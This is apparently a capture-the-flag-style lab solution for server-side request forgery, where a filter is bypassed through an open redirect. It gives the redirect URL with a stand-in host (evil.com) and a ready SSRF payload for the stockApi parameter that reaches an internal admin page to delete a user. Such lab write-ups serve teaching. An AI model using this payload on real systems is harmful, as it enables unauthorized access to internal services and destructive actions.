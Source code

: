 # SSRF with filter bypass via open redirection vulnerability
Solution:
- There is an open redirect at /product/nextProduct?currentProductId=3&path=http://evil.com
- Use this payload
 ```js
 stockApi=/product/nextProduct?currentProductId=3%26path=http://192.168.0.12:8080/admin/delete?username=carlos#?productId=4
 ```